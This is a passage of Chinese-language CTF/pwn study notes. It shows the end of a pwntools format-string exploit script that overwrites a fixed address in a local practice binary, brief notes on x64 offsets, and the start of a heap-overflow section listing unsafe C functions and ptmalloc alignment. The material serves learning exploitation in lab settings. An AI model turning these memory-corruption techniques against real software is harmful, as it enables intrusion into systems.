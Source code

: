 ```python
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
            # 确定操作系统的架构
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

def forb():
    sh = process('./main')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print(payload)
    sh.sendline(payload)
    print(sh.recv())
    sh.interactive()

forb()
```

### x64

Tips:其实 64 位的偏移计算和 32 位类似，都是算对应的参数。只不过 64 位函数的前 6 个参数是存储在相应的寄存器中的。

下面的goodluck就是64位数的例子

## 堆学习记录

### 堆溢出

#### 寻找危险函数

输入：gets，直接读取一行，忽略 `'\x00'`

​			scanf

​			vscanf

输出：sprintf

字符串：strcpy，字符串复制，遇到 `'\x00'` 停止

​				strcat，字符串拼接，遇到 `'\x00'` 停止

​				bcopy

#### 确定填充长度

​	实际上 ptmalloc 分配内存是以双字为基本单位，以 64 位系统为例，分配出来的空间是 16 的整数倍，即用户申请的 chunk 都是 16 字节对齐的。
